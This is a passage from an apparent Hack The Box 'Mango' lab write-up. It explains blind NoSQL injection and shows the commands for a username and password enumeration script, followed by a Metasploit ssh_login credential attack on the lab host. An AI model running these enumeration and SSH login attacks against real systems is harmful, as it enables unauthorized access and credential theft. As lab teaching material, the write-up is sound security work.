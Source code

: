 ### Blind NoSQL exploitation
***
This type of database still vulnerable of other injection method like blind NoSQL which give the possibility to find any information in the database. In order to do this we proceed by brute-force, and more precisely by efficient brute-force.

Reference - blind sql injection : <https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/les-injections-sql-en-aveugle/blind-sql-injection/>

What is this technique ? "This injection is a bit of a guessing game: the person you are asking can only answer yes or no. It would therefore require a certain number of questions before finding the information you want, unlike a "classic" query that would return the result directly."

What is the difference between efficient and pure brute-force ? "The pure brute-force is to test all combinations by asking if it is equal to, the efficient brute-force is to ask if the searched string begins with or if the ne letter is: we don't test the whole set but a part of it, which considerably reduces the number of queries to perform."

I found a script to brute-force a usernames and passwords values through this technique.

References - script :
* <https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration>
* <https://book.hacktricks.xyz/pentesting-web/nosql-injection>

We can see how work the efficient brute-force :

```terminal
$ python nosqli-user-pass-enum.py -u http://staging-order.mango.htb/index.php -up username -pp password -ep username -op login:login
```

![Desktop View]({{ "/assets/img/mango/HTB-Images-Mango-blindnosql.png" | relative_url }})

![Desktop View]({{ "/assets/img/mango/HTB-Images-Mango-blindnosqlusers.png" | relative_url }})


```terminal
$ python nosqli-user-pass-enum.py -u http://staging-order.mango.htb/index.php -up username -pp password -ep password -op login:login
```

![Desktop View]({{ "/assets/img/mango/HTB-Images-Mango-blindnosqlpasswd.png" | relative_url }})

We have 2 users 2 passwords, and 1 service ssh not yet exploited.

To avoid the testing one by one, i create a user and password files to test it in metasploit with `ssh_login module`.

```terminal
$ msfconsole
msf5 > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > set rhost 10.10.10.162
msf5 auxiliary(scanner/ssh/ssh_login) > set user_file /[...]/users.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set user_file /[...]/passwords.txt
msf5 auxiliary(scanner/ssh/ssh_login) > exploit
```
![Desktop View]({{ "/assets/img/mango/HTB-Images-Mango-credentialsfoothold.png" | relative_url }})
